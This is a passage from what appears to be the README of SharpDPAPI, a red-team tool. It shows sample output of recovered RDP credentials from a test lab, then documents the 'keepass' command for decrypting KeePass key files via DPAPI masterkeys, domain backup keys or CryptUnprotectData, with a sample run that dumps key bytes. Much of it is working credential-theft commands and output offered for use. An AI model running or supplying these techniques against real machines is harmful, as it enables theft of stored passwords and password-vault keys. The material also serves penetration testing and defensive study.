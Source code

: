               Profile Name : Custom
                UserName   : TESTLAB\harmj0y
                Password   : Password123!

          C:\Users\harmj0y\Documents\test.rdg

            Servers

              Name         : secondary.testlab.local

              Name         : primary.testlab.local
              Profile Name : Custom
                UserName   : TESTLAB\dfm.a
                Password   : Password123!


#### keepass

The **keepass** command will search for KeePass ProtectedUserKey.bin files for the current user (or if elevated, all users) and either a) decrypt them with any "{GUID}:SHA1" masterkeys passed, b) a `/mkfile:FILE` of one or more {GUID}:SHA1 masterkey mappings, c) use a supplied DPAPI domain backup key (`/pvk:BASE64...` or `/pvk:key.pvk`) to first decrypt any user masterkeys (a la **masterkeys**), or d) a `/password:X` to decrypt any user masterkeys which are then used as a lookup decryption table. DPAPI GUID mappings can be recovered with Mimikatz' `sekurlsa::dpapi` command.

The `/unprotect` flag will use CryptUnprotectData() to decrypt the key bytes, *if* the command is run from the user context who saved the passwords. This can be done from an _unprivileged_ context, without the need to touch LSASS. For why this approach isn't used for credentials/vaults, see Benjamin's [documentation here](https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials#problem).

A specific ProtectedUserKey.bin file, .RDC file (or folder of .RDG files) can be specified with `/target:FILE` or `/target:C:\Folder\`. If a file is specified, {GUID}:SHA1 values (or `/unprotect`) are required, and if a folder is specified either a) {GUID}:SHA1 values must be supplied or b) the folder must contain DPAPI masterkeys and a /pvk domain backup key must be supplied.

Decrypted key file bytes can be used with the [modified KeePass version in KeeThief](https://github.com/GhostPack/KeeThief/tree/master/KeePass-2.34-Source-Patched).

Using `/unprotect` to decrypt any found key material:

    C:\Temp> SharpDPAPI.exe  keepass /unprotect

      __                 _   _       _ ___
     (_  |_   _. ._ ._  | \ |_) /\  |_) |
     __) | | (_| |  |_) |_/ |  /--\ |  _|_
                    |
      v1.10.0


    [*] Action: KeePass Triage

    [*] Using CryptUnprotectData() for decryption.

    [*] Triaging KeePass ProtectedUserKey.bin files for current user

        File             : C:\Users\harmj0y\AppData\Roaming\KeePass\ProtectedUserKey.bin
        Accessed         : 3/1/2021 1:38:22 PM
        Modified         : 1/4/2021 5:49:49 PM
        guidMasterKey    : {dab90445-0a08-4b27-9110-b75d4a7894d0}
        size             : 210
        flags            : 0x0
        algHash/algCrypt : 32772 (CALG_SHA) / 26115 (CALG_3DES)
        description      :
        Key Bytes        : 39 2E 63 EF 0E 37 E8 5C 34 ...
